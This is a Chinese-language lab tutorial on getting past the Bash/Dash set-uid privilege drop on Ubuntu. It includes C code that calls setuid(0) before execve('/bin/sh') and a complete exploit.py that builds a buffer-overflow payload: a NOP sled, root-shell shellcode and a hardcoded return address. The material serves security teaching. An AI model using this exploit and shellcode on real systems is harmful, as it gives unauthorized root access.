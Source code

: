 # 攻破Bash和Dash保护机制

Set-UID中讲过，在Ubuntu 16.04以上版本，发现在set-uid进程中运行时，会立刻把有效用户id变成
实际用户id，主动放弃特权。通过缓冲区溢出攻击，可以绕过这个保护机制。

## 绕过保护机制的两种方法

1、使用没有保护机制的shell，如zsh  
2、执行Dash之前调用setuid(0)，把真实用户id改成0  

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

![主动放弃特权](../img/overflow-dashguard1.png)
可以看到set-uid进程中运行时，被放弃了特权，最后得到的是普通的shell

程序中增加一行setuid(0)
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    
    setuid(0);
    execve("/bin/sh", argv, NULL);
    return 0;
}
```
![攻破dash保护](../img/overflow-dashguard2.png)

## 用新的shellcode执行缓冲区溢出攻击

exploit.py改为：
```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xbffff528 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```
代码解读，前四行shellcode是新增加的，前三条是将ebx置0并让eax等于0xd5（这个值是setuid()系统调用的号码），
第四条指令执行setuid(0)系统调用。

![新的shellcode溢出攻击](../img/overflow-exploit.png)
可以看到用新的shellcode执行攻击后，uid直接就是root了

!!! warning

    注意前面那个暴力破解寻找地址的实验做过后，会破坏系统，导致做这个实验死活出不来结果。
    出不来结果时，先验证准备攻击环境里那个缓冲区溢出实验能否成功。